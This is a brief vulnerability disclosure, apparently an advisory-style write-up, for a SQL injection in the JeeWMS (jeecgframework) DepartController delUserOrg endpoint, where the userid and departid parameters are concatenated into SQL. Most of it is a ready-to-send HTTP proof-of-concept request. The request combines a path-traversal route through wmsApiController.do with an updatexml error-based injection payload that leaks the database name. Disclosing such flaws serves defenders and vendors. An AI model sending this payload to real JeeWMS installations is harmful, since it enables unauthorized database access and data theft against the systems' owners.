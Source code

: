 The `userid` and `departid` are user-controllable and of type `string`, which can be directly concatenated into the `sql` statement, resulting in `SQL` injection.

`org.jeecgframework.web.system.controller.core.DepartController#delUserOrg`

![image-20250724172245956](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250724172245956.png?imageSlim)

vulnerabilitiy`POC`

```http
GET /jeewms/wmsApiController.do/../departController.do?delUserOrg&userid=10'/**/and/**/updatexml(1,concat(0x7e,database(),0x7e),1)/**/and/**/'&departid=10 HTTP/1.1
Host: 192.168.21.128:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

![image-20250724172404583](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250724172404583.png?imageSlim)

